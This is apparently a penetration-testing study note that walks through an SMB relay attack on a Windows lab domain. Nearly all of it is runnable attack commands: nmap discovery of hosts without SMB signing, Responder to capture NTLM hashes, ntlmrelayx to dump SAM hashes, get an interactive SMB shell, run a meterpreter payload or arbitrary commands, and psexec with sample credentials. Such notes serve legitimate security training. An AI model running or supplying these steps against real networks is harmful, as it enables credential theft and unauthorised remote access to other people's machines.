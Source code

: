 **SMB Relay Overview**
- Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access
- Requirements
  - SMB signing must be disabled on the target
  - Replayed user credentials must be admin on machine
    - Grab the NTLM hash from one machine and relay that NTLM hash to another machine as specified on ntlmrelayx. Therefore at least two machine should be there to perform relay
- Step 1
  - Discover Hosts with SMB Signing Disabled
    - `nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24`
    - If the result is Message signing enabled but not required, then we can perform attack as well.
- Step 2
  - Add the IPs with SMB signing disabled on targets.txt file.
- Step 3
  - Open the responder configuration file and turn off the SMB and HTTP. `vim /usr/share/responder/Responder.conf` or `vim /etc/responder/Responder.conf`
  - We will be listening but not going to be responding
- Step 4
  - Run Responder : `python Responder.py -I eth0 -rdwv`
- Step 5
  - Run [NTLMrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py). `python ntlmrelayx.py -tf targets.txt -smb2support`
  - It takes the relay and passes it to the target file that you specify. -smb2support : incorporate anything with SMB too.
  - Wait until an event triggers
- Step 6 : Win
  - It relays the credentials that it captures to this other machine. It will list the SAM files (same as /etc/shadow file on Linux)
  - We can crack those hashes to get the passwords or we can pass those hashes to get access to other machines as well.
- Step 7 : Post Exploitation
  - Run responder as before
  - Run NTLMRelayx in interactive mode
    - `python ntlmrelayx.py -tf targets.txt -smb2support -i` 
  - Setup a listener
    - `nc 127.0.0.1 <portnumber>` Port number can be gained from the result from ntlmrelayx
    - `help` : Here we gained the SMB shell
    - List shares : `shares`
    - `Use C$`
    - `ls`
    - We can have a full access on the computer like we can add file, read file
  - We can also setup a meterpreter listener
    - `python ntlmrelayx.py -tf targets.txt -smb2support -e test.exe` where test.exe is a meterpreter payload (executable)
  - Executes some specifc commands
    - `python ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"` 
  - Getting a shell with [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py)
    - `python3 psexec.py marvel.local/fcastle:Password1@192.168.57.141` <br><br>
